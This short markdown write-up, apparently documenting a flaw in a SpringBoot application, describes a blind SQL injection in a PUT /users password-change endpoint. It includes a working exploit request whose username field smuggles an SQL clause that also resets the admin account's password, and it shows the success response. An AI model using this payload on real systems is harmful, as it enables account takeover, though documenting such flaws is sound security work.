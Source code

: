 # Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Location** _PUT /users_
Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"ding' OR username = 'admin",
        "newPassword":"password10!"
    }

This example assumes the attacker's name is _ding_ and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password10!_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

